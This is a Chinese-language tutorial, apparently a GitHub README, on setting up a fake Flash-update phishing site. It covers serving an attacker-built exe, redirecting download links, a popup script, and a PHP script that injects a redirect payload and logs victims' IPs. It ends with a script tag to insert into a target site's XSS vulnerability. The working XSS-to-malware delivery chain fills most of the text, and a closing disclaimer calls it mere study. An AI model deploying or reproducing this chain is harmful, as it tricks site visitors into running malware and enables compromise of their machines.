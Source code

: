 # 原版的无法实现自动收杆的效果，就简单改了一下

**好了，正文开始**

需要准备好的东西：域名、一台服务器、弹窗源码、鱼站源码以及做好的exe文件


## 第一步：在服务器上已经配置好NGINX+PHP的环境

省略步骤......


## 第二步：上传鱼站和制作好的exe文件
随便找个鱼站放上去

这里我使用的是x0rz4师傅开源的代码：`https://github.com/x0rz4/Flash_fishing`
然后打开index.html 将所有包含`www.flash.cn`的外链都删了(因为懒)，这样随便点也不会跳转到官方网站了(随意,你想怎么改都行)

最关键的是如何让下载的文件是你制作的, 就是后面的步骤了
修改`/config/flashVersion`这个文件基本上所有下载地址都在这里了，建议全部换成你的域名


创建一个目录`/cdm/latest/`, 这个路径是上面flashVersion中写的路径，用来防止exe文件

## 第三步：上传xss.html弹窗调用页面
主要用于后面的xss
```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <script src='./flash.js'></script>
    </head>
    <body>
    </body>
</html>
```
## 第四步：上传弹窗代码

可以看到上面调用了 `flash.js`,我使用的是r00tSe7en师傅的开源弹窗代码：`https://github.com/r00tSe7en/Flash-Pop` , 因此在你上传这个flash.js

接着修改这个JS，搜索`onclick=window.location.href='https://www.se7ensec.cn/'>`  全JS代码只有这么一个

把这个域名更换成鱼站的地址127.0.0.1

## 第五步：上传收杆检测代码

xss1.php
```
<!-- xss.php的改版 -->
<?php
$xssPayload =  "window.location.href=\"https://127.0.0.1/xss.html\";";
$db = "botIPs.txt";

$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
$botIP = @$_GET['ip'];

/**
1、获取IP
2、判断是否存在对应文件
3、读取里面的内容
*/
// var_dump($_REQUEST);
// var_dump($_SERVER);
if(! $_REQUEST['ip']){
    $ip_content = file_get_contents($db);
    $ip_array = explode(PHP_EOL,$ip_content);
    if(! in_array(base64_encode($ip),$ip_array)){
		header('Content-type: text/javascript');
		echo $xssPayload;
    }
}else{
    if (!is_null($botIP)){
    	file_put_contents($db,base64_encode($botIP).PHP_EOL,FILE_APPEND);
    }
}
?>
```

## 第六步：插入目标

在目标xss漏洞存在的地方插入`<script type="text/javascript" src="https://127.0.0.1/xss.php"></script>`

**姜太公钓鱼，愿者上钩**

# 总结

当所有的东西都配置完成后，你会发现毫无卵用，只要不是傻子一看就能看出来。

那为什么还要写呢? 纯属学习娱乐，原作者的自动收杆没整明白哪一步出了问题导致没复现出来，所以取个巧体验体验自动收杆的感觉。

因此切莫用于实战，否则你将每天过着规律的生活作息，吃着丰盛的美食以及做着充足的劳动。
所谓在规律中改造，秩序中生活，在潜移默化中重塑自我，在积极改造的路上奔向新生，迎接希望！！！
